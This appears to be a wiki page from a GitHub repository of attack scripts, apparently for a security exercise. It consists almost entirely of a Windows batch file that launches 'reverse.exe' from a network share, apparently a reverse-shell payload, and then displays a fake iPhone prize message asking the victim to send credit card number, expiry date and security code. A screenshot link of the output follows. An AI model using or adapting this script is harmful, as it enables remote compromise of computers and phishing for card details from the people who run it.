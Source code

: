 ```batch
@echo off

:: Step 1 – Run EXE from network share
start "" "\\10.80.0.X\share\reverse.exe"

:: Step 2 – Show prank message
title YOU HAVE JUST WON AN IPHONE XS MAX 512GB!!!
echo.
echo YOU HAVE JUST WON AN IPHONE XS MAX 512GB!!!
echo Dear valued customer,
echo You have just won the iPhone XS Max Space Gray 512GB!!!
echo To claim the prize please send your credit card number, the expiration date and the three numbers on the back.
echo iPhone will arrive in post, please email back your address.
echo You have just won an AirPods!!!
echo To claim the prize please send your credit card number, the expiration date and the three numbers on the back.
echo Airpod will arrive in post, please email back your address.
echo From Sandesh Kumar, Apple CEO India operative.
echo.

pause
exit
```

When executed it looks like that:

![congrats](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img12.jpeg?raw=true)
